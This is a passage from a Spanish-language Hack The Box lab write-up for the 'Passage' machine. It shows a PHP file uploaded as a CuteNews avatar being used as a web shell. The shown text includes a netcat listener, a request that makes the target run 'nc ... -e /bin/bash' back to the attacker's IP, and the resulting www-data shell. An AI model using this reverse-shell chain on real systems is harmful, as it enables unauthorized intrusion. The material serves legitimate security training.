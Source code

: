 Subimos y guardamos cambios:

![206page80_cutenews_upavatardone](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/passage/206page80_cutenews_upavatardone.png)

Los avatars quedan guardados en la ruta `/uploads`:

![206page80_cutenews_uploadsroute](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/passage/206page80_cutenews_uploadsroute.png)

![206page80_cutenews_rcewithavatar](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/passage/206page80_cutenews_rcewithavatar.png)

Perfecto, tenemos ejecución de comandos remotamente, generemos una reverse shell (: Pongamonos en escucha y despues hacemos la petición:

```bash
–» rlwrap nc -nlvp 4433
listening on [any] 4433 ...
```

```html
http://10.10.10.206/CuteNews/uploads/avatar_lanz_ejeje.php?xmd=nc 10.10.14.142 4433 -e /bin/bash
```

```bash
connect to [10.10.14.142] from (UNKNOWN) [10.10.10.206] 39636
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
script /dev/null -c bash
Script started, file is /dev/null
www-data@passage:/var/www/html/CuteNews/uploads$ ls
ls
avatar_lanz_ejeje.php
www-data@passage:/var/www/html/CuteNews/uploads$ 
```
